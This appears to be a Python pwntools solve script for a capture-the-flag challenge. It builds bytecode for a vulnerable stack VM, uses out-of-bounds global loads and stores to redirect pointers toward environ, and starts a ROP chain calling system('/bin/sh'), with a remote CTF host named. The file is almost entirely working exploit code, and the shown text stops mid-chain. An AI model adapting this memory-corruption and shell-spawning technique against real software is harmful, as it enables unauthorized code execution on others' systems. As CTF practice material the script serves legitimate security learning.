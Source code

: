 ```python
    "RET"       : 17,  # return value from function
    "HALT"      : 18
}

leak = lambda : p32(opcodes["PRINT"])
jmp = lambda : p32(opcodes["BR"])
jmpt = lambda x: p32(opcodes["BRT"]) + p32(x)
push = lambda x: p32(opcodes["ICONST"]) + struct.pack("<i", x)
halt = lambda : p32(opcodes["HALT"])
gload = lambda x: p32(opcodes["GLOAD"]) + struct.pack("<i", x)
gstore = lambda x: p32(opcodes["GSTORE"]) + struct.pack("<i", x)
# load = lambda x: p32(opcodes["LOAD"]) + struct.pack("<i", x)     !! BAD OPCODE !!
store = lambda x: p32(opcodes["STORE"]) + struct.pack("<i", x)
sub = lambda : p32(opcodes["ISUB"])
add = lambda : p32(opcodes["IADD"])
pop = lambda : p32(opcodes["POP"])

if args.REMOTE:
    p = remote("127.0.0.1", 31337)
    # p = remote("pwnb.jonathanw.dev", 4005)
    environ_offset = 1217800240
    x = -20
    pause()
elif args.SOLVE:
    p = remote("pwnb.jonathanw.dev", 4005)
    environ_offset = 1217800240
    x = -20
else:
    p = process("./vuln")
    x = -70
    environ_offset = 0x489336b0


code = b""
# nglobal = code_size = 0x10000000
code += push(0x10000000) + gstore(-2110)
code += push(0x10000000) + gstore(-2106)
# we find the difference in the MSB of the two pointers
code += gload(-2111)
code += gload(-2107)
code += sub()
# save the result to restore MSB later on
code += gstore(-2106)
# next, we offset the LSB and set global pointer to environ
# !! BOUND TO BE BUGGY !!
code += gload(-2112)
code += push(environ_offset) + add()
# store it into global LSB
code += gstore(-2108)
# now we fix our MSB
code += add()
# fix nglobals and move the sp so we don't overwrite crucial stuff
code += push(0x10000000)
# now we set our globals address to stack address
code += gload(1)
code += gload(0)
code += store(-993)
code += store(-992)
# find our gadgets
# rop chain will look like RET + POP_RDI + BINSH + SYSTEM
# BINSH FIRST
code += push(0x0068732f)
code += gstore(x+3)
```
